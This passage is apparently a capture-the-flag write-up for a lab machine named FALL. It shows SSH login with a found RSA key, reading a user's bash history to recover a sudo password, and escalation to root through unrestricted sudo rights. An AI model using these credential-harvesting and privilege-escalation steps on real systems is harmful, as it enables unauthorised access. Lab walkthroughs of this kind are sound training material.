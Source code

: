 ## Exploitation
### Access via SSH

I granted read permissions only to the owner of the rsa key, and I logged in via ssh as user **qiu**.

```console
root@kali:~$ chmod 400 id_rsa
root@kali:~$ ssh qiu@172.16.131.132 -i id_rsa
Web console: https://FALL:9090/

Last login: Sun Sep  5 19:28:51 2021
[qiu@FALL ~]$ id
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),10(wheel)
[qiu@FALL ~]$ ls
local.txt  reminder
[qiu@FALL ~]$ cat local.txt
A low privilege shell! :-)
```

By listing qiu's hitory, we find his password which is used as input to the sudo command.
 
```console
[qiu@FALL ~]$ cat .bash_history
ls -al
cat .bash_history
rm .bash_history
echo "remarkablyawesomE" | sudo -S dnf update
...
```

We then verify that **qiu** can execute all system commands as sudo.

```console
[qiu@FALL ~]$ sudo -l
[sudo] password for qiu:
Matching Defaults entries for qiu on FALL:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on FALL:
    (ALL) ALL
```

## Privilege Escalation
### Sudo Permissions

We execute the su command followed by a hyphen as sudo and we become root.
